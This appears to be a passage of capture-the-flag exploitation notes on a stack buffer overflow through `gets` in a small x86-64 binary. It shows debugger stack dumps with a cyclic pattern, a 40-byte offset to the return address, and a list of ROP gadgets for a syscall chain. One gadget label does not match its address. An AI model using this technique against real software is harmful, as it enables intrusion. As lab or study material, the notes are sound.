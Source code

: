 ```
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000

0x00007fffffffddc8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"    ← $rsp
0x00007fffffffddd0│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffddd8│+0x0010: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffdde0│+0x0018: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffdde8│+0x0020: "saaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffddf0│+0x0028: "uaaavaaawaaaxaaayaaa"
0x00007fffffffddf8│+0x0030: "waaaxaaayaaa"
0x00007fffffffde00│+0x0038: 0x0000000061616179 ("yaaa"?)
```

```
stack ────
0x00007fffffffddc8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"    ← $rsp
0x00007fffffffddd0│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffddd8│+0x0010: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffdde0│+0x0018: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffdde8│+0x0020: "saaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffddf0│+0x0028: "uaaavaaawaaaxaaayaaa"
0x00007fffffffddf8│+0x0030: "waaaxaaayaaa"
0x00007fffffffde00│+0x0038: 0x0000000061616179 ("yaaa"?)
```
Breaks on `ret` in `main`
```
     0x40066d <main+35>        call   0x4004f0 <gets@plt>
     0x400672 <main+40>        mov    eax, 0x0
     0x400677 <main+45>        leave  
 →   0x400678 <main+46>        ret
```

Register/Stack Offsets:
```
# Fault/Top of Stack
>>> cyclic_find("kaaa")
40

# RBP Overwrite
>>> cyclic_find("iaaa")
32
```

So our payload will need to start like
`[40 bytes of Data] + [Addr]`

# Finding Gadgets:
The gadget functions...I do not see them
###### For reference, here's what's in each gadget
Gadget 1: `40062a`
	`0x0000000000400621 : push rbp ; mov rbp, rsp ; syscall`
Gadget 2: `40062a`
	`0x000000000040062a : push rbp ; mov rbp, rsp ; pop rdi ; ret`
Gadget 3: `400632`
	`0x0000000000400632 : push rbp ; mov rbp, rsp ; pop rsi ; ret`
Gadget 4: `40063a`
	`0x000000000040063a : push rbp ; mov rbp, rsp ; pop rdx ; ret`
Gadget 5: `400642`
	`0x0000000000400642 : push rbp ; mov rbp, rsp ; pop rax ; ret`
